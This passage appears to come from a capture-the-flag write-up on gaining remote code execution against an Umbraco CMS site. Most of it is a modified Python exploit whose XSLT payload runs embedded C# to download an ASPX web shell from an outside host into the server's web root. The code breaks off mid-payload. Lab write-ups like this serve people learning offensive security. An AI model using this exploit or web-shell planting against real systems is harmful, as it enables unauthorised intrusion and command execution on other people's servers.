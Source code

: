 ![login.png](_resources/24740d246e0d4e89b157ba2c4d818456.png)

Seeing that the the webpage is running Umbraco I find an an RCE exploit here https://www.exploit-db.com/exploits/46153. I had make some edits to the exploit, here is the final product.
```{.py}
import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());

print("Start");

# Execute a calc for the PoC
payload = """<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("http://10.10.14.48/cmdasp.aspx",
                       @"c:\\inetpub\\wwwroot\\Umbraco\\cmdasp.aspx");

    return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
```